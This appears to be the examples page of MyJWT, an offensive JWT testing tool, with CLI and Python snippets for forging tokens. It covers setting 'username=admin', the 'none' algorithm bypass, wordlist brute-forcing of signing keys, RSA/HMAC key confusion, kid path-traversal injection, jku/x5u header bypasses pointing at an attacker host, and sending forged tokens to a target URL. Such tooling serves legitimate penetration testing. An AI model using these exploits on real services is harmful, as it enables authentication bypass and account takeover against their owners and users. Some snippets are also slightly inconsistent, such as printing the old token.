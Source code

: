 # Examples
- [Modify Your jwt](#modify-your-jwt)
- [None Vulnerabilty Check](#none-vulnerability)
- [Sign Key](#sign-key)
- [Brute Force Signature](#brute-force)
- [RSA/HMAC Confusion](#rsahmac-confusion)
- [Kid Injection](#kid-injection)
- [Send your new Jwt to url](#send-your-new-jwt-to-url)
- [Jku Vulnerability](#jku-vulnerability)
- [X5u Vulnerability](#x5u-vulnerability)
## Modify your Jwt
### CLI
```
myjwt YOUR_JWT --add-payload "username=admin" --add-header "refresh=false"
```
### Code
```
from MyJWT.modifyJWT import addpayload, addheader, changePayload
from MyJWT.utils import jwtToJson, SIGNATURE, encodeJwt

jwtJson = jwtToJson(jwt)
jwtJson = addheader(jwtJson, {"kid": "001"})
jwtJson = changePayload(jwtJson, {"username": "admin"})
jwt = encodeJwt(jwtJson) + "." + jwtJson[SIGNATURE]
```
Full example here: [01-modify-jwt](https://github.com/mBouamama/MyJWT/blob/master/examples/01-modify-jwt/main.py)
## None Vulnerability
### CLI
```
myjwt YOUR_JWT --none-vulnerability
```
### CODE
```
from MyJWT.utils import jwtToJson, SIGNATURE
from MyJWT.vulnerabilities import noneVulnerability
jwtJson = jwtToJson(jwt)
jwt = noneVulnerability(encodeJwt(jwtJson) + "." + jwtJson[SIGNATURE])
```
Full example here: [02-none-vulnerability](https://github.com/mBouamama/MyJWT/blob/master/examples/02-none-vulnerability/main.py)
## Sign Key
### CLI
```
myjwt YOUR_JWT --sign YOUR_KEY
```
### CODE
```
from MyJWT.modifyJWT import signature
from MyJWT.utils import jwtToJson
key = "test"
jwt = signature(jwtToJson(jwt), key)
```
Full example here: [03-sign-key](https://github.com/mBouamama/MyJWT/blob/master/examples/03-sign-key/main.py)
## Brute Force
### CLI
```
myjwt YOUR_JWT --bruteforce PATH
```
### CODE
```
from MyJWT.vulnerabilities import bruteforceDict
wordlist = "../../wordlist/common_pass.txt"
key = bruteforceDict(jwt, wordlist)
```
Full example here: [04-brute-force](https://github.com/mBouamama/MyJWT/blob/master/examples/04-brute-force/main.py)
## RSA/HMAC Confusion
### CLI
```
myjwt YOUR_JWT --hmac FILE
```
### CODE
```
from MyJWT.vulnerabilities import confusionRsaHmac
file = "public.pem"
jwt = confusionRsaHmac(jwt, file)
```
Full example here: [05-rsa-hmac-confusion](https://github.com/mBouamama/MyJWT/blob/master/examples/05-rsa-hmac-confusion/main.py)
## Kid Injection
### CLI
```
myjwt YOUR_JWT --kid INJECTION
```
### Code
```
from MyJWT.modifyJWT import signature
from MyJWT.utils import jwtToJson
from MyJWT.vulnerabilities import injectSqlKid

injection = "../../../../../../dev/null"
sign = ""
jwt = injectSqlKid(jwt, injection)
jwt = signature(jwtToJson(jwt), sign)
```
Full example here: [06-kid-injection](https://github.com/mBouamama/MyJWT/blob/master/examples/06-kid-injection/main.py)

## Send your new Jwt to url

### CLI
```
myjwt YOUR_JWT -u YOUR_URL -c "jwt=MY_JWT" --non-vulnerability --add-payload "username=admin"
```

## Jku Vulnerability
### CLI
```
myjwt YOUR_JWT --jku YOUR_URL
```
### Code
```
from MyJWT.vulnerabilities import jkuVulnerability
newJwt = jkuVulnerability(jwt=jwt, url="MYPUBLIC_IP")
print(jwt)
```
Full example here: [07-jku-bypass](https://github.com/mBouamama/MyJWT/blob/master/examples/07-jku-bypass/main.py)
## X5U Vulnerability
### CLI
```
myjwt YOUR_JWT --x5u YOUR_URL
```
### Code
```
from MyJWT.vulnerabilities import x5uVulnerability
newJwt = x5uVulnerability(jwt=jwt, url="MYPUBLIC_IP")
print(jwt)
```
Full example here: [08-x5u-bypass](https://github.com/mBouamama/MyJWT/blob/master/examples/08-x5u-bypass/main.py)
